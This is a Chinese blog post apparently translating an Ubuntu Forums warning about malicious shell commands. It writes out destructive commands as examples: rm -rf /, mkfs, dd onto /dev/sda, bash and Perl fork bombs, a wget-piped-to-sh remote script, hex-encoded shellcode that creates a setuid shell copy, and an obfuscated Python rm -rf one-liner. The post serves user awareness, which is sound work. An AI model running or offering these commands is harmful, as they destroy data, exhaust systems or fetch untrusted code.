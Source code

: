 ```yaml
---
layout: post
title: Linux恶意命令大全
tags:
- command
- linux
- ubuntu
status: publish
type: post
published: true
meta:
  _searchme: '1'
  views: '1183'
  _wp_old_slug: linux%e6%81%b6%e6%84%8f%e5%91%bd%e4%bb%a4%e5%a4%a7%e5%85%a8
---
```

Ubuntu论坛上的<a href="http://ubuntuforums.org/announcement.php?a=54" target="_blank">公告</a>提醒用户警惕有人假装提供问题解决方案而诱导用户使用恶意命令，并列出了一些恶意命令，特别强调以下是<strong>"DANGEROUS COMMANDS</strong> -- look but <strong>DO NOT RUN"</strong>

<strong>删除</strong>所有文件，当前目录，或当前目录的可见文件:

[code]
rm -rf /
rm -rf .
rm -rf *
[/code]

一个有趣的命令是，当你想删除当前目录的所有隐藏文件时，你也许会用:

[code]
rm -r .*
[/code]

但问题是，这个命令也会删除父目录 ".."，最终这个命令会删除所有父目录的父目录的父目录，也就是删除了所有东西！可能的解决方法是:

[code]
rm -r .[^.]*
[/code]

当然，这个命令可能无法匹配某些想要删除的文件，这个问题留给读者来修正 -,-
（不知道这样行不行: <font color="#3366ff">rm -r .[^.]*</font><font color="#3366ff">; rm -r ..?* </font>不过太土鳖了。。--azalea）

<strong>格式化</strong>

<!--more-->

[code]
mkfs
mkfs.ext3
mkfs.anything
[/code]

<strong>操作块设备</strong>:导致原始数据写入块设备，通常会使文件系统崩溃，数据丢失

[code]
any_command &gt; /dev/sda
dd if=something of=/dev/sda
[/code]

<strong>Forkbomb</strong>(汗。。不知道怎么翻译）：执行大量线程直到死机，用户不得不重启，可能导致系统崩溃、数据损坏等严重后果。在类Bourne shell中, 如Bash: (这个命令绝对会引起尝试的冲动。。）

[code]
:(){:|:&amp;};:
[/code]

详细解说： from <a href="http://hellobmw.com/archives/ubuntus-malicious-commands.html" target="_blank">北极冰仔部落格</a>
<blockquote>:(){:|:&amp; };: 等价于
f() # 定义函数
{ f | f # 这个是精华, 管道线使两个 f 同时运行 }; f # 调用函数永不返回, 无穷递归. bash 的调用栈放在堆上, 结果耗尽所有CPU和内存空间. 而且同时运行的 f() 是指数爆炸式的…</blockquote>
在Perl中
[perl]
fork while fork
[/perl]

<strong>Tarbomb</strong>:把一个被人做了手脚的tar档案文件解压到一个已经存在的目录下。这个tar档案文件可能会变成成千上万个文件或通过猜测文件名注入系统。因此，<strong>要养成习惯在一个刚创建的目录中解压tar文件</strong>。（这段没看懂，原文如此：Someone asks you to extract a tar archive into an existing directory. This tar archive can be crafted to explode into a million files, or inject files into the system by guessing filenames. You should make the habit of decompressing tars inside a cleanly made directory. --azalea)

<strong>解压炸弹</strong>: 解压一个从不可靠来源下载的看起来很小的文件，实际上这个文件可能是被高度压缩的，解压后会膨胀成上百GB，塞满你的硬盘。因此，<strong>不要使用不可靠来源的数据</strong>！

<strong>Shell脚本</strong>：运行可能含恶意代码的shell脚本。因此，<strong>不要运行来自不可信来源的shell脚本</strong>。

[code]
wget http://some_place/some_file
sh ./some_file
[/code]

或
[code]
wget http://some_place/some_file -O- | sh
[/code]

<strong>编译代码</strong>：有人提供给你源代码让你编译，很容易在其中隐藏恶意代码。不要轻易编译源代码或执行编译后的代码，除非来源可靠（比如SourceForge,作者的主页或者Ubuntu官方地址）

一个著名的例子出现在<a href="http://seclists.org/fulldisclosure/2007/Aug/0071.html" target="_blank">一个邮件列表</a>中, 其中有这样一段代码：

[code]
char esp[] __attribute__ ((section(".text"))) /* e.s.p
release */
= "xebx3ex5bx31xc0x50x54x5ax83xecx64x68"
"xffxffxffxffx68xdfxd0xdfxd9x68x8dx99"
"xdfx81x68x8dx92xdfxd2x54x5exf7x16xf7"
"x56x04xf7x56x08xf7x56x0cx83xc4x74x56"
"x8dx73x08x56x53x54x59xb0x0bxcdx80x31"
"xc0x40xebxf9xe8xbdxffxffxffx2fx62x69"
"x6ex2fx73x68x00x2dx63x00"
"cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;";
[/code]

对新手来说，这些代码就像"那些复杂的十六进制的东东"，看起来很安全，但实际上这是运行 rm -rf ~ / &amp;
对于普通用户，这个命令会破坏home目录;而对于root用户，这个命令会破坏整个文件系统。如果你能在十六进制字符串中辨认出这个命令，那你不用担心上述的恶意命令了。否则，要当心恶意命令会以各种新颖的形式出现！

强调一下，以上远不是所有恶意命令的清单。花30秒就可以用python写出以下代码:

[python]
python -c 'import os; os.system("".join([chr(ord(i)-1) for i in "sn!.sg!+"]))'
[/python]

其中的"sn!.sg!+"实际上只是 rm -rf * 上移了一个字母。当然这是个很土鳖的例子--我不希望有人会不经思考就把这段代码粘贴到终端里去。

节译自<a href="http://ubuntuforums.org/announcement.php?a=54" target="_blank">ATTENTION ALL USERS: Malicious Command</a> by <a href="http://ubuntuforums.org/member.php?s=d7c0f60f430aca0675e7f761165e2c28&amp;u=780" target="_blank">jdong</a>
